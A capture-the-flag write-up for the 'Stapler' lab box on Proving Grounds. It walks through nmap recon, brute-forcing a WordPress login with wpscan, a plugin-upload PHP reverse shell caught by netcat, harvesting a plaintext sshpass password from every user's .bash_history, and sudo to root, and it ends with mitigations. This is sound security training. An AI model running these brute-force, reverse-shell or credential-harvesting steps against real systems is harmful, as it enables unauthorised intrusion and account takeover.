


<!-- writeup-meta
title: Stapler
platform: Proving Grounds Play
os: Linux
difficulty: Intermediate
ip: 192.168.174.148
date: 2026-10-19
tags:
  - writeup
  - linux
  - wordpress
  - information-disclosure
  - credential-reuse
  - sudo
  - privesc
-->
# Stapler

> [!NOTE]
> **TL;DR** — Stapler throws a dozen services and several rabbit holes at you. The real path: port 12380 serves a second site over **HTTPS** with a WordPress at `/blogblog`. `wpscan` brute-forces the `john` account, the admin panel's plugin upload drops a PHP shell for `www-data`, and dumping every user's `.bash_history` leaks `peter`'s SSH password in a `sshpass` command. `peter` has unrestricted `sudo` → instant root.
>
> **Path:** 12380 HTTPS → `/blogblog` WordPress → `wpscan` (`john`) → plugin-upload shell (`www-data`) → `.bash_history` leaks `peter`'s password → `peter` (`sudo ALL`) → root

## 1. Recon

### 1.1 Nmap

A sprawling attack surface — FTP, SSH, DNS, two HTTP servers, SMB, a raw ZIP on 666, MySQL, and a second web stack on 12380:

```bash
$ nmap -Av -sS -p- 192.168.174.148
PORT      STATE  SERVICE     VERSION
21/tcp    open   ftp         vsftpd (anonymous allowed)
22/tcp    open   ssh         OpenSSH 7.2p2 Ubuntu
53/tcp    open   tcpwrapped
80/tcp    open   http        PHP cli server 5.5+ (404)
139/tcp   open   netbios-ssn Samba 4.3.11-Ubuntu
666/tcp   open   pkzip-file  .ZIP file (message2.jpg)
3306/tcp  open   mysql       MySQL 5.7.33
12380/tcp open   http        Apache (also answers HTTPS — see 1.3)
```

### 1.2 Service enumeration — breadcrumbs and rabbit holes

Lots of services means lots of distractions. The useful breadcrumbs:

- **FTP (anon):** the banner names *Harry*, and a downloaded `note` names *Elly* and *John* → usernames `harry`, `elly`, `john`.
- **SMB (null session):** readable `kathy` and `tmp` shares. `kathy/backup` holds `wordpress-4.tar.gz` and `vsftpd.conf` — a strong hint the box runs WordPress — but nothing directly usable.
- **Port 666:** serves the raw bytes of a ZIP archive over a bare HTTP/0.9 response. The browser renders the binary, and the `PK` magic header plus the `message2.jpg` filename give it away:



Saving it (`wget http://192.168.174.148:666/ -O archive.zip`) and unzipping yields `message2.jpg`.

> [!WARNING]
> **Rabbit holes, flagged so future-me can skip them:**
> - `message2.jpg`: `steghide`/`stegseek` find no hidden data; `strings` only yields "If you are reading this, you should get a cookie!" — a troll.
> - Port 80 is an empty PHP app (404 on `/`); MySQL on 3306 has no creds yet.
> - Port 12380 over **HTTP** is just an "Initech" to-do page.
> - `https://…:12380/admin112233/` pops "This could of been a BeEF-XSS hook ;)" and redirects to xss-payloads.com — bait.

### 1.3 The real surface — 12380 over HTTPS

The turn came from noticing port 12380 *also* answers **HTTPS**, serving a completely different site ("Internal Index Page"). Its `robots.txt` points the way:

```bash
$ curl -sk https://192.168.174.148:12380/robots.txt
User-agent: *
Disallow: /admin112233/
Disallow: /blogblog/
```

`/blogblog` is a WordPress site, and a post is authored by **John Smith** — "I run this place":



## 2. Foothold

### 2.1 wpscan — cracking john

The `wp-login` form confirms `john` is valid (it rejects the password, not the username). `wpscan` cracks the account against `rockyou`:

```bash
$ wpscan --url https://192.168.174.148:12380/blogblog/ --disable-tls-checks -U john -P /usr/share/wordlists/rockyou.txt
[SUCCESS] - john / [REDACTED]
```

> [!NOTE]
> Yes, the cracked password is a one-word joke — fitting for a box this full of gags.

### 2.2 Plugin upload → shell

> [!IMPORTANT]
> **Vulnerability:** an authenticated WordPress admin can run arbitrary PHP. **Plugins → Add New** (and the built-in plugin/theme editors) accept a PHP file that then executes server-side — a login turns straight into code execution.

Logged into `wp-admin` as `john`, I uploaded a pentestmonkey PHP reverse shell as a plugin and triggered it:

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [<LHOST>] from (UNKNOWN) [192.168.174.148] 53044
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

After stabilising the TTY, the user flag is world-readable in `/home`:

```bash
www-data@lab-pg-ubuntu16-stapler-247-124:/$ cat /home/local.txt
[REDACTED]
```

- **Initial access as:** `www-data`
- **local.txt:** `[REDACTED]`

## 3. Privilege Escalation

### 3.1 Credentials in .bash_history

The box has ~25 home directories. Rather than open each one, I dumped every readable shell history at once — and one of them is the prize: it holds `sshpass` commands with **plaintext passwords** for two accounts.

```bash
www-data@lab-pg-ubuntu16-stapler-247-124:/$ cat /home/*/.bash_history
...
sshpass -p [REDACTED] ssh JKanode@localhost
sshpass -p [REDACTED] ssh peter@localhost
...
```

> [!TIP]
> **Why this works:** `sshpass -p <password>` puts the password on the command line, so it lands verbatim in `.bash_history`. Anyone who can read that file inherits the credentials — here, the second line hands over **peter**'s password.

### 3.2 peter → root

Switching to `peter` with the leaked password, his sudo rights are wide open:

```bash
$ su peter
peter@lab-pg-ubuntu16-stapler-247-124% sudo -l
User peter may run the following commands on lab-pg-ubuntu16-stapler-247-124:
    (ALL : ALL) ALL
```

`(ALL : ALL) ALL` means peter can run any command as any user — i.e. become root at will.

### 3.3 Root

With unrestricted sudo, root is a single command (`sudo su`), and the flag reads out:

- **Escalated to:** `root` (via `peter`'s unrestricted `sudo`)
- **proof.txt:** `[REDACTED]`

## 4. Lessons Learned

- **Don't drown in the service count.** Stapler's dozen ports are mostly noise and trolls (the port-666 "cookie", the BeEF redirect, the HTTP Initech page). The discipline is to keep moving and not over-invest in any one shiny dead end.

- **Check for HTTPS on a "boring" HTTP port.** The entire foothold hid behind the fact that 12380 served a *second, different* site over TLS. Always probe both `http://` and `https://` on an odd web port.

- **Enumerate usernames from everywhere, then confirm at the login.** FTP banner, a `note`, SMB comments, and the WordPress author all fed names; the `wp-login` user-enumeration behaviour confirmed `john` before brute-forcing.

- **Read every `.bash_history` in one shot.** `cat /home/*/.bash_history` is a one-liner that beats browsing homes individually — and `sshpass` on a command line is a classic plaintext-password leak.

- **Always run `sudo -l` after a lateral move.** peter's `(ALL : ALL) ALL` made the final step trivial; the hard part was *reaching* peter.

- **New technique for my notes:** WordPress plugin-upload → PHP RCE; `sshpass` passwords leaked in `.bash_history`.

## 5. Mitigation

- **Never pass secrets on the command line.** `sshpass -p <password>` writes the password into shell history, logs, and the process list. Use key-based auth; at minimum keep credentials out of `.bash_history`.

- **Lock down WordPress.** Enforce a strong admin password (`[REDACTED]` falls to `rockyou` instantly), restrict plugin/theme file editing (`DISALLOW_FILE_EDIT`/`DISALLOW_FILE_MODS`), and don't expose the admin over a guessable path.

- **Scope sudo.** `(ALL : ALL) ALL` with no password discipline is a full root grant; limit sudoers to the exact commands a user needs.

- **Don't leave backups and hints in shares.** Anonymous FTP notes, world-readable SMB shares, and a WordPress tarball in `kathy/backup` all handed the attacker usernames and a tech stack for free.

## References

- [WPScan — WordPress security scanner](https://github.com/wpscanteam/wpscan)
- [HackTricks — WordPress (plugin/theme RCE)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)
- [GTFOBins — sudo](https://gtfobins.github.io/gtfobins/sudo/)
